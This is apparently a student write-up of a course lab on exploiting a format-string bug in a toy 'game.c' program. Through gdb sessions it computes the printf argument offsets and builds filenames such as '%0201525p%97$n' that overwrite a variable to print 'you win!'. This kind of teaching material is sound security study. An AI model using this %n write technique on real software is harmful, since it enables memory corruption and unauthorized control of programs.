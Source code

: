 https://piazza.com/class/lm3dh436w1h4oo/post/241
```
>>> gcc -o %p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p -g -DEASY game.c
>>> gdb --args env -i ./%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p $'\x34\x12\xff\xff\xff\x7f' '' 'b'

(gdb) start
(gdb) x/1xg argv[1]
0x7fffffffefc8: 0x00007fffffff1234
// This pointer is placed on the stack, the address of the pointer is aligned correctly (8 byte aligned, ends in either 0 or 8)

(gdb) p &i
$1 = (const int *) 0x7fffffffed04
// Now that we have the address of i, we can pass that in

>>> gdb --args env -i ./%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p $'\x04\xed
\xff\xff\xff\x7f' '' 'b'
(gdb) x/1xg argv[1]
0x7fffffffefc8: 0x00007fffffffed04
(gdb) p &i
$1 = (const int *) 0x7fffffffed04
```

We know that the first 6 arguments to a function are passed in the registers while the rest are on the stack. The first argument is of course the format string, so the first 5 `"%p"`'s will print the contents of the remaining 5 (non format string) argument registers. All remaining `"%p"`'s will print values off the stack. This means at a minimum, you need 6 `"%p"`'s, but the more stack values you have, the easier it is to verify you found the correct location. 

The caller is responsible for loading the first 6 arguments into registers then pushing the remaining arguments onto the stack, meaning that when you are at the first instruction of the `printf()` call in this case, the stack pointer will be pointing to one 8-byte block past the first stack argument (as the `call` assembly instruction will push the return address onto the stack)
```
(gdb) start
(gdb) n
6           const char * str = "this is a string";
(gdb) n
7           const int i = 0;
(gdb) n
8           uint8_t j = 128;
(gdb) n
10         uint64_t k = (uint64_t)&i;
(gdb) n
12          uint8_t l = 255;
(gdb) n
14          printf(argv[0]);
(gdb) si 6
0x0000555555555094 in printf@plt ()
(gdb) p $rsp+8
$1 = (void *) 0x7fffffffecf0
(gdb) x/6xg 0x7fffffffecf0
0x7fffffffecf0: 0x00007fffffffee18      0x0000000455555230
0x7fffffffed00: 0x00000000ff800000      0x0000555555556004
0x7fffffffed10: 0x00007fffffffed04      0x68b9979b690eaf00
```
 - We now have the address of our malicious pointer (`0x7fffffffefc8`) which points to `i` as  well as the address of the 6th `printf` argument (`0x7fffffffecf0`)
 - Reminder of our malicious pointer address"
	```malicious
	(gdb) x/1xg argv[1]
	0x7fffffffefc8: 0x00007fffffffed04
	```
 - Now calculate the parameter offset we need for `printf()` to find the malicious pointer
```Math
(0x7fffffffefc8 - 0x7fffffffecf0) / 8 + 6 = ?
(728) / 8 + 6 = 97
```
 - This is how many bytes away the malicious pointer is from the known pointer being found by printf. Since each pointer is 8 bytes, divide by 8 to learn how many pointers we are. Finally, since our reference point is the 6th argument we add 6. Our malicious pointer is the 97th argument to printf
 - This can be tested as follows: (remember the length of the arguments need to remain the same)
```
>>> gcc -o $'%97$p------------------------------' -g -DEASY game.c
>>> env -i $'./%97$p------------------------------' $'\x04\xed\xff\xff\xff\x7f' '' 'b'   ./0x7fffffffed04------------------------------you lose!
```
 - This is now printing out our malicious pointer. If we replace this with `%n` then we will overwrite `i`. Since the overwritten value would still be 0, we need to print `0x31337` characters before `%n`
 - Since that is way too many characters, linux won't let you do that. However we can double check first to make sure that the process is sound
```
>>> gdb --args env -i $'./fuck%97$n--------------------------' $'\x04\xed\xff\xff\xff\x7f' '' 'b'

(gdb) start
(gdb) p i
$1 = 0
(gdb) n
6           const char * str = "this is a string";
(gdb) n
7           const int i = 0;
(gdb) n
8           uint8_t j = 128;
(gdb) n
10         uint64_t k = (uint64_t)&i;
(gdb) n
12          uint8_t l = 255;
(gdb) n
14          printf(argv[0]);
(gdb) p i
$2 = 0
(gdb) p argv[0]
$3 = 0x7fffffffefa2 "./fuck%97$n", '-' <repeats 26 times>
(gdb) n
15          if (i == 0x31337)
(gdb) p i
$4 = 6
```
 - You can see that the value of `i` has been overwritten to `6` after `printf` has been called

**0x31337**:
 - Insert string formatting, the filename can't be 200k+ characters but `printf` can do that for you
 - New filename: `'%0201525p%97$n---------------------'`
	 - `0x31337 = 201527`, this is reduced by 2 because for some reason `argv[0]` counts `./`
	 - This pads the `printf` statement with 201525 `0`s before calling `$n` on the 97th variable given to `printf`
```
>>> gdb --args env -i $'./%0201525p%97$n---------------------' $'\x04\xed\xff\xff\xff\x7f' '' 'b'

(gdb) start
(gdb) p i
$1 = 0
(gdb) n
6           const char * str = "this is a string";
(gdb) n
7           const int i = 0;
(gdb) n
8           uint8_t j = 128;
(gdb) n
10         uint64_t k = (uint64_t)&i;
(gdb) n
12          uint8_t l = 255;
(gdb) n
14          printf(argv[0]);
(gdb) n
... big ass text string blowing up terminal
(gdb) p i
$1 = 201527
(gdb) n
17              printf("you win!\n");
```
```
>>> env -i $'./%0201525p%97$n---------------------' $'\x04\xed\xff\xff\xff\x7f' '' 'b'
000<... shitload of 0s>00007fffffffee18---------------------you win!
```


### Not Easy
```
>>> gcc -o '%p-%p-%p-%p-%p-%p-%p-%p' -g game.c
>>> gdb --args env -i ./%p-%p-%p-%p-%p-%p-%p-%p $'\x34\x12\xff\xff\xff\x7f' '' 'b'
(gdb) start
(gdb) x/1xg argv[1]
0x7fffffffefd4: 0x00007fffffff1234
// My pointer is not aligned correctly, needs to be +- 4 bytes
(gdb) q

>>> gdb --args env -i ./%p-%p-%p-%p-%p-%p-%p-%p $'\x34\x12\xff\xff\xff\x7f' '' 'bcdef'
(gdb) start
(gdb) x/1xg argv[1]
0x7fffffffefd0: 0x00007fffffff1234
// Now correctly aligned
(gdb) p &i
$1 = (const int *) 0x7fffffffed24
// Address of `i` to now pass in as an argument
(gdb) q

>>> gdb --args env -i ./%p-%p-%p-%p-%p-%p-%p-%p $'\x24\xed\xff\xff\xff\x7f' '' 'bcdef'
(gdb) start
(gdb) x/1xg argv[1]
0x7fffffffefd0: 0x00007fffffffed24
// Pointer to `i`, stored at 0x7fffffffefd0

(gdb) n
7           const int i = 0;
(gdb) n
8           uint8_t j = 128;
(gdb) n
12          uint8_t l = 255;
(gdb) n
14          printf(argv[0]);
(gdb) p $rsp+8
$1 = (void *) 0x7fffffffed10
(gdb) x/6xg 0x7fffffffed10
0x7fffffffed10: 0x00007fffffffee28      0x0000000455555080
0x7fffffffed20: 0x00000000ff80ee20      0x0000555555556004
0x7fffffffed30: 0x0000000000000000      0x00007ffff7dda083
// When at first instruction of printf() the SP is pointing to one 8-byte block past first stack argument
// This shows us the address of the first 6th printf argument `0x7fffffffed10`
(gdb) q

// Calculate the parameter offset between the 6th argument and our malicious pointer
>>> python3
>>> (0x7fffffffefd0 - 0x7fffffffed10) / 8 + 6
94.0
>>> exit()
// Our pointer is the 94th argument to printf

// Recompile executable with new name to overwrite 94th param to printf
>>> gcc -o $'%0201525p%94$n---------' -g game.c
>>> gdb --args env -i $'./%0201525p%94$n---------' $'\x24\xed\xff\xff\
xff\x7f' '' 'bcdef'
(gdb) n
7           const int i = 0;
(gdb) n
8           uint8_t j = 128;
(gdb) n
12          uint8_t l = 255;
(gdb) n
14          printf(argv[0]);
(gdb) p i
$1 = 0
(gdb) n
<shitload of 0s>
(gdb) p i
$2 = 201527
(gdb) n
17              printf("you win!\n");
(gdb) q

>>> env -i $'./%0201525p%94$n---------' $'\x24\xed\xff\xff\xff\x7f' '' 'bcdef'
00<many many 0s>007fffffffee28---------you win!
```
